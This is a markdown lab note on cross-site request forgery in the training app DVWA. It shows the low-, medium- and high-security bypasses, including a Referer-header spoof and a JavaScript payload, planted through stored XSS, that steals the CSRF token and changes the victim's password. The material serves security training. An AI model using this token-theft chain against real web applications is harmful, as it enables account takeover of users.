 # Insecure Design: CSRF Vulnerability

## Overview

- Application architecture that presents attack opportunities
    
- Covers a wide array of issues
    
- No single attack vector
    
- Often requires deep explanation to clients
    
---
## CSRF Demo in DVWA

## Low Security Level

1. **Navigation**: Go to CSRF page in DVWA (security level set to low)
    
2. **Vulnerability**: Password change form sends a GET request
    
3. **Example URL**:
```http
http://ubuntu-server:8001/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#
```
    
4. **Attack Vector**: Simply copying and pasting the URL in another tab changes the password without authentication
    
---
## Medium Security Level

1. **Added Protection**: Server checks the `Referer` header
    
2. **Bypass Method**: Set Referer header to match victim website
    
```http
Referer: http://ubuntu-server
```
    
---
## High Security Level

1. **Added Protection**: Implements CSRF token that refreshes with each page load
    
2. **Defense Mechanisms**:
    
    - Token-based protection
        
    - Browsers enforce SameSite=Lax by default (iframes won't have victim cookies)
        
3. **Bypass Method**: Chain with stored XSS vulnerability
    
    - Use XSS to access the CSRF token
        
    - Construct request with valid token
        
    - Example exploit code:
        
		```js
		fetch("http://ubuntu-server:8001/vulnerabilities/csrf/")
		.then(d => d.text())
		.then(t => {
			let parser = new DOMParser();
			let doc = parser.parseFromString(t, "text/html");
		
			let userToken = Array.from(doc.querySelectorAll("input"))
				.filter(i => {
					return i.name == "user_token";
				})[0].value;
			console.log(userToken);
		
			let newPass = "password321";
			let url = `http://ubuntu-server:8001/vulnerabilities/csrf/?password_new=${newPass}&password_conf=${newPass}&Change=Change&user_token=${userToken}`;
			fetch(url).then(d => { console.log(d); });
		});
		```
    
4. **Implementation**: Place payload in stored XSS vulnerable input
    
	```js
	<script>
	PAYLOAD_WRITTEN_ABOVE
	</script>
	```
    
5. **Limitation**: In this specific case, the server-side message field length limit prevented successful execution

---
## Key Takeaways

- Multiple security measures can be bypassed when vulnerabilities are chained
- Input length restrictions can sometimes prevent exploit execution
- State-changing functions should not be frameable.